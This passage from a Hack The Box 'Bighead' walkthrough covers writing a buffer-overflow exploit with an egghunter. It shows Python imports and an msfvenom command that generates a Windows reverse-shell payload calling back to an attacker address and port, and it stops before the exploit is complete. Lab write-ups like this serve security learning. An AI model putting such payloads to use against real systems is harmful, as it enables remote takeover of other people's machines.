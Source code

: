 ![](/images/hackthebox/bighead/75.png)
<br> As we can see the whole request is printed in the memory. With this information now we can write the exploit.
<br>
<hr>
## Writing the Exploit
<br> First thing is the imports, I imported `socket`,`binascii` and `re` 
```
import socket
import binascii
import re
```
<br> Then I started to define the variables , we need variables to hold the host, the port, the egg, the shellcode and the egghunter. Let's generate the shellcode first :
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -b '\x00' -f python`
![](/images/hackthebox/bighead/76.png)
<br> `-b '\x00'` is for bad chars. `\x00` which is a null byte is always a bad char because it acts a string terminator and terminates the execution so we don't need that in the shellcode.  We will add this to the exploit and remove `\x` because we will use `hexlify` and `unhexlify` functions from `binascii`. This is for the shellcode, now we need the egghunter. I used this [tool](https://github.com/ihack4falafel/OSCE/blob/master/Tools/EggHunter.py) to generate the egghunter :